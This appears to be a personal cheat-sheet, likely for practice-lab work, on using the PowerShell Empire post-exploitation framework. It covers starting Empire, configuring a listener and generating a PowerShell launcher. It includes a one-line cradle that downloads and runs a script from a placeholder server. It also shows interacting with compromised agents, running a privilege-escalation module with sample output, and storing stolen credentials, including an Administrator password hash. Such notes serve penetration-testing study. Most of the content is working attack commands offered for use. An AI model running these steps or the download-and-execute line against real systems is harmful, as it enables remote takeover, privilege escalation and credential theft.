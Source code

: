 # Powershell Empire

Started using this today, it's really cool. Takes a lot of the work out of finding scripts to run.

Firing it up:

```bash
/data/reset.sh
```

Run it with that to reset the database, otherwise it  seems to fail to start, not always though so if you just need to start  it (and it doesn't crash) then do:

```bash
./empire
```

Setup a Listener

```bash
listeners
```

Once you're inside that menu do:

```bash
uselistener <tab-completion-works-here>
```

View options with:

```bash
info
```

Then use set to configure the connection for your IP/Port:

```bash
set Host 10.10.14.3:443
set Port 443
```

For the shell to come back the ports need to match (or so it appears)

To start the listener:

```bash
execute
```

Then run:

```bash
launcher powershell
```

This will fire back the other half of the shell, which you can execute with IEX(New-Object Net.WebClient)downloadString('http://yoursever/yourfile.ps1')

Interacting with Agents
Head back to the main menu using back
Now type agents to see a list of active agents.
Get the name of the agent you wish to interact with, and type:

```bash
interact <agent-name>
(Empire) > interact ASWX9H8G
(Empire: ASWX9H8G) >
```

Now you can type:

```bash
searchmodule <modulename (not case sensitive)
```

Using Modules
Once you've found the module you're looking for run:

```bash
usemodule <module-name>
```

Then type info and hit enter to see the options:

```bash
(Empire: ASWX9H8G) > usemodule privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > info

              Name: Invoke-AllChecks
            Module: powershell/privesc/powerup/allchecks
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @harmj0y

Description:
  Runs all current checks for Windows privesc vectors.

Comments:
  https://github.com/PowerShellEmpire/PowerTools/tree/master/P
  owerUp

Options:

  Name  Required    Value                     Description
  ----  --------    -------                   -----------
  Agent True        ASWX9H8G                  Agent to run module on.

```
  
In this case we can just type execute and then hit enter

```bash
(Empire: powershell/privesc/powerup/allchecks) > execute
[*] Tasked ASWX9H8G to run TASK_CMD_JOB
[*] Agent ASWX9H8G tasked with task ID 4
[*] Tasked agent ASWX9H8G to run module powershell/privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > [*] Agent ASWX9H8G returned results.
Job started: F9E4KY
[*] Valid results returned by 10.10.10.81
Wait a few seconds. And that should output what it managed to find. 
```

## Credentials

creds add domain username password

Use creds to see all stored credentials.

For some modules you can then just use set CredID `<ID number>` and not have to type in the username and password.

Getting Trolled By CredTypes
If you see:

[!] A CredID with a plaintext password must be used!

Then check creds.

If the password is the wrong type, readd it with the following:

creds add DESKTOP-7I3S68E Administrator 3130438f31186fbaf962f407711faddb something plaintext

Then just use the new ID and you gucci
